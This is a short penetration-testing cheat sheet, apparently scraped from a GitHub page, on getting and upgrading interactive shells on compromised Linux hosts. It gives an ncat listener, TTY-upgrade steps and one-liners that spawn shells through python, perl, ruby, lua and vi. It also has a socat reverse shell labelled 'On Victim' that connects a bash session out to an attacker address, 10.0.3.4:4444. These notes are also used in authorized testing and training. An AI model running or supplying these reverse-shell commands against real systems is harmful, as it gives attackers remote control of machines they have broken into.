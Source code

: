 ### Interactive Shell

#### MISC

`# RLWRAP allows you to interface local and remote keyboards # It gives access to keyboard arrows and history 
```
rlwrap ncat -lvp port
```

`# Another way to get a better shell # script is almost everytime present on the machine /usr/bin/script -qc /bin/bash /dev/null`

  

#### Fully Interactive TTY Shell

`# Using STTY # In reverse shell $ python -c 'import pty; pty.spawn("/bin/bash")' Ctrl-Z  # In Kali $ stty raw -echo $ fg  # In reverse shell $ reset $ export SHELL=bash $ export TERM=xterm-256color $ stty -raw echo OR $ stty rows <num> columns <cols>`

  

#### Spawning a shell

`# Using os.system echo os.system('/bin/bash')`

`# Using interactive sh /bin/sh -i`

`# Using Perl, Ruby or Lua perl -e 'exec "/bin/sh";' perl: exec "/bin/sh"; ruby: exec "/bin/sh"; lua: os.execute('/bin/bash')`

`# Using Vi :!bash :set shell=/bin/bash:shell`

``# WARNING # OhMyZSH might break this trick # so just launch /bin/bash before in your Kali to exit the /bin/zsh # Using socat # On Kali socat file:`tty`,raw,echo=0 tcp-listen:4444   # On Victim socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444``
